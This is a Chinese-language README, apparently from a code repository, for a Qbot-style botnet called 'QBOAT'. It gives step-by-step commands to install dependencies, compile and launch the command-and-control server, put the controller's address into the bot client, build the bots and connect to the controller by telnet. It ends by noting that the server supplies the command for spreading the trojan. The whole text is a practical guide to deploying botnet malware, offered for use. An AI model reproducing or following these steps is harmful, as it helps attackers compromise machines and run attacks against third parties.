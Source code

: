 # 非常哈基米的船上网络(QBOAT)  
`首先你得有一个centos 7系统`  
然后安装依赖  
```bash
centos的源一般都已经失效了，除非你真的不怕死，你可以用阿里云或者腾讯云，来运行此船上网络
备用centos7源安装方式:
curl -o /etc/yum.repos.d/CentOS-Base.repo

http://mirrors.aliyun.com/repo/Centos-7.repo
yum update -y
yum install epel-release -y
yum install vim screen gcc perl wget lbzip bzip2 unzip httpd -y
```
## 然后编译cnc主端  
```bash
gcc server.c -o server -pthread
```
## 编译完主端你就可以先运行了
```bash
#创建一个登录文件
vi login.txt
#格式:
用户名 密码
#然后启动主端
screen ./server 监听船端口 线程 telnet连接端口
ctrl+a+d退出
如果你想查看主端可以先输入指令
screen -ls
查看会话
然后
screen -r 会话名
```
## 更换client.c的cnc 地址和端口
```c
client.c:


unsigned char *commServer[] = {"ip:port", "ip:port"};

```
## 编译船
```python
#忘了这个哈哈

python boat_install.py client.c 你的公网IP
```
## 连接cnc端
```
目前Windows自带的telnet连接不怎么行，跟坨臭屎一样
所以你需要一个Linux系统，乌班图或者centos
有些不自带telnet，自己去搜安装方式
安装完之后
telnet 你的服务器的公网ip 你设置的连接端口
```
## 教程结束，完结撒花
`完事就是这么简单`  
`传马命令他会给出的`  
`后面船自己弄`  
